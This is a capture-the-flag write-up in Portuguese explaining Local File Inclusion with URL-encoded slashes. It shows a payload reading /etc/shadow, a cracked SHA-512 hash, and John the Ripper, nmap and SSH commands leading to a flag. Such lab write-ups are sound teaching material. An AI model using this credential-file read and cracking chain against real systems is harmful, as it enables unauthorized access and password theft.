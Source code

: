 # _**Contexto de LFI (Local File Inclusion)**_
Algumas aplicações web incluem o conteúdo de outros arquivos e o imprimem em uma página web  
Ou a aplicação pode incluí-lo no documento e analisá-lo como parte da respectiva linguagem
Por exemplo, se uma aplicação web tiver a seguinte requisição: ```https://example.com/?include_file=file1.php```  
Isso pegaria o conteúdo de file1.php e o exibiria na página  
Se uma aplicação não colocar na lista de permissões quais arquivos podem ser incluídos, um usuário poderá requisitar o arquivo _/etc/shadow_, mostrando todas as senhas com hash dos usuários no sistema que executa a aplicação web

Quando a aplicação web inclui um arquivo, ela o lerá com as permissões do usuário que executa o servidor web  
Por exemplo, se o usuário joe executar o servidor web, ele lerá o arquivo com as permissões de joe
Se estiver executando como _root_, ele terá as permissões de usuário root  
Leve isso em consideração ao tentar incluir arquivos: tente primeiro incluir um arquivo que você sabe que o servidor web tem permissão de leitura para verificar se ele é vulnerável à inclusão de outros arquivos  
Com a inclusão de arquivos locais, você pode tentar visualizar os seguintes arquivos para ajudar a assumir o controle de uma máquina  

Alguns servidores web interpretam cada barra (/) como uma requisição para um novo diretório. Mas e se quisermos incluir um arquivo como _/etc/shadow?_
Considere a seguinte requisição: ```https://example.com/notes/?include=/etc/shadow```  
O servidor pensará que está indo para /notes/include/etc/shadow. Você não pode incluir uma barra na URL, pois o servidor web pensará que está fazendo uma requisição para um diretório diferente.
A solução é usar a codificação de URL  

A codificação de URL substitui caracteres ASCII inseguros por '%' seguido por dois dígitos hexadecimais  
Uma barra (/) pode ser codificada como %2F  
Isso significa que podemos alterar a requisição que tínhamos anteriormente para: ```https://example.com/notes/?include=%2Fetc%2Fshadow```
Esta nova requisição será feita para _/notes/_ e então converterá %2F em uma barra!  
Removendo qualquer ambiguidade sobre onde a solicitação é feita e o arquivo que estamos incluindo  
Este é um [decodificador/codificador](https://meyerweb.com/eric/tools/dencoder/) de URL útil que você pode usar  

# _**Execução**_
Inspecionando o código-fonte da página, encontra-se o código abaixo

> ```bash
>  function getNote(note, id) {
>    const url = '/get-file/' + note.replace(/\//g, '%2f')
>    $.getJSON(url,  function(data) {
>      document.querySelector(id).innerHTML = data.info.replace(/(?:\r\n|\r|\n)/g, '<br>');
>    })
>  }
>  // getNote('server.js', '#note-1')
>  getNote('views/notes/note1.txt', '#note-1')
>  getNote('views/notes/note2.txt', '#note-2')
>  getNote('views/notes/note3.txt', '#note-3')
> ```

Se o backend simplesmente decodificar o valor e fizer algo como: ```fs.readFile(decodeURIComponent(req.params.filename), ...)```  
Então um atacante pode chamar: ```/get-file/%2fetc%2fshadow```
E o servidor leria /etc/shadow diretamente, revelando dados sensíveis  
Conseguindo acesso ao arquivo /etc/shadow, temos o usuário charlie e seu hash  
Estrutura de um arquivo _/etc/shadow_: <mark>usuário:senha:lastchg:min:max:warn:inactive:expire:reserved</mark>  

Hash da senha: <mark>$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL</mark>  
**Algoritmo usado:** ($6$) | sha-512  
**Salt usado:** oHymLspP  

Utilizando a ferramenta <mark>John the Ripper</mark> e a lista de senhas **rockyou** para quebrar a senha
> ```bash
> john --wordlist=../wordlists/rockyou.txt hashes.txt
> ```

<mark>Senha: password1</mark>  
Agora, verifica-se que tipo de conexão ou aplicativo está rodando na máquina com a ferramenta nmap  
> ```bash
> nmap -p 0-10000 -sV -A -T5 [ip_address]
> ```
> ```bash
> port 22: ssh
> ```

Uma conexão ssh com o usuário e senha descoberto  
> ```bash
> ssh charlie@[ip_address]
> ```
password: password1  
Acesso garantido!  

Um simples ```ls``` e vemos o arquivo flag1.txt
```cat flag1.txt``` e temos o seu conteúdo

Para os outros desafios, o primeiro basta olhar o próprio site
O segundo é a senha descoberta
